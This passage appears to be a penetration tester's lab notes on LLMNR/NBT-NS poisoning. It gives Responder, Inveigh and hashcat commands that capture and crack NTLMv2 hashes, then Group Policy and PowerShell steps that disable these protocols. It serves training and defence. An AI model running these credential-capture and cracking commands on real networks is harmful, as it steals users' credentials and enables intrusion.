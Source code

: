 ```bash
sudo responder -I <interfacename> 
```
Logs will get stored in 
`/usr/share/responder/logs`

```shell
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

### Windows
#### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
#### Powershell
*No longer updated*
```powershell
Import-Module .\Inveigh.ps1
```

```powershell
(Get-Command Invoke-Inveigh).Parameters
```

Output to a console and write to a file.
```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

#### C# Inveigh
```powershell
.\Inveigh.exe
```
Use `esc` to enter and exit the console
Get unique hashes typing 
```
GET NTLMV2UNIQUE
```
Get unique Usernames 
```
GET NTLMV2USERNAMES
```

## Mitigiaiton

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

PowerShell script to disable NBT-NS
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
Push out on a domain
`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

